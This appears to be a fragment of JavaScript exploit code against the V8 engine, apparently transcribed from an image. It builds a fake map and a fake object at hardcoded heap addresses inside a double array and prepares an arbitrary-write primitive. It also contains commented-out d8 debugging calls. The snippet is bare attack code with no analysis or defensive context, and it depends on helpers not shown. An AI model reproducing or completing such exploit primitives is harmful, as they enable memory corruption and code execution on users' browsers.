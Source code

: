 ```
var const_object_element_addr = 0x004c2141;
var const_object_data_addr = const_object_element_addr+7;
 
var fake_map_addr = const_double_data_addr + 0x1000;
var fake_obj_addr = const_double_data_addr + 0x2000;
 
// 0x2f040404001837c9      0x0a0007ff11000843
big_double_array[(fake_map_addr-const_double_data_addr)/8 + 0] = u64_to_f64(0x2f040404001837c9n);
big_double_array[(fake_map_addr-const_double_data_addr)/8 + 1] = u64_to_f64(0x0a0007ff11000843n);
big_double_array[(fake_obj_addr-const_double_data_addr)/8 + 0] = pair_u32_to_f64(fake_map_addr+1, 0x6fd);
big_double_array[(fake_obj_addr-const_double_data_addr)/8 + 1] = pair_u32_to_f64(0, 0x2000);
 
const prefix = "pppp";
const value = fake_obj_addr+1;
// 8 7 6 [5 4 3 2] 1
const arb_write_value = pair_u32_to_f64((value<<8)&0xffffffff, (value>>24)&0xffffffff);
hexx("arb_write_value", f64_to_u64(arb_write_value));
const arb_write_addr = const_object_data_addr;
//%DebugPrint(big_double_array);
//%DebugPrint(big_object_array);
//readline();
 
```